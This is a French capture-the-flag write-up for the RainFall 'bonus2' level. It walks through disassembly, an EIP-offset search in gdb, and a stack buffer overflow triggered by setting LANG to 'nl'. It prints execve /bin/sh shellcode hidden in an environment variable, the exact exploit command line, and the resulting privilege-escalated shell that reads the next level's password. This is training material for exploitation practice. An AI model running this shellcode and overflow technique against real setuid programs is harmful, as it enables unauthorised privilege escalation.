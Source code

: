 ```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 test test12
Hello test
bonus2@RainFall:~$ ./bonus2 test test
Hello test
bonus2@RainFall:~$ ./bonus2 test1 test12
Hello test1
```

On observe un binaire attendant 2 arguments et affichant Hello [av1]
On a 2 fonctions, le main ainsi qu'une fonction "greetuser"

```
   0x08048538 <+15>:    cmp    DWORD PTR [ebp+0x8],0x3
   0x0804853c <+19>:    je     0x8048548 <main+31>
   0x0804853e <+21>:    mov    eax,0x1
   0x08048543 <+26>:    jmp    0x8048630 <main+263>
```

On recupere le contenu de argc et si ce n'est pas égal à 3 on jump à main+263 pour return 1
Puis il y a un memset sur la chaine de caractere declarée au debut.
2 calls de strncpy sur la meme chaine de caractere (40 puis 32) en utilisqnt les arguments 1 et 2.
```
0x0804859f <+118>:   mov    DWORD PTR [esp],0x8048738
   0x080485a6 <+125>:   call   0x8048380 <getenv@plt>
   0x080485ab <+130>:   mov    DWORD PTR [esp+0x9c],eax
   0x080485b2 <+137>:   cmp    DWORD PTR [esp+0x9c],0x0
   0x080485ba <+145>:   je     0x8048618 <main+239>
```
Puis on call getenv() ce qui parait interessant, on observe une variable globale LANG.
Si le getenv() est égal à 0 alors on quitte.
Et enfin on arrive à la partie qui va nous interesser !

On observe que si l'on a lang = fi ou nl alors dans la fonction greetuser, la chaine va etre plus longue et va segfalt!
Mettons donc notre lange à NL

```
export LANG=nl
gdb ./bonus2
run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
# On a mit 40 A dans le premier argument pour remplir le premier strncpy puis generer la deuxieme chaine avec notre buffer overflow https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
```
On remarque que le programme segfalt bien, puisque l'on observe aucune entrée au shell, on en déduit que l'on devra injecter notre propre shell.
Comme dans un bonus precedent, nous allons donc injecter notre shell dans une variable d'environement et l'appeler via le crash de l'EIP.
On a donc un offset = 23.

Shellcode : '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' # http://shell-storm.org/shellcode/files/shellcode-827.php

```
export LANG=$(python -c 'print("nl" + "\x90" * 500 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
# Encore une fois, comme avant on rajoute du padding pour etre sur que les arguments n'interfèrent pas
```

Puis on trouve l'adresse de notre variable d'environement:

```
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r
Starting program: /home/user/bonus2/bonus2

Breakpoint 1, 0x0804852f in main ()
(gdb) x/s *environ
0xbfffe8b8
```

Enfin on fait donc:
Avec 40 bytes de padding et 23 pour la langue = nl


```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "Y"*23 + "\xb8\xe8\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYYYYYYYYYYYYYYYYYYYYYYY����
bash-4.2$ whoami
bonus3
bash-4.2$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
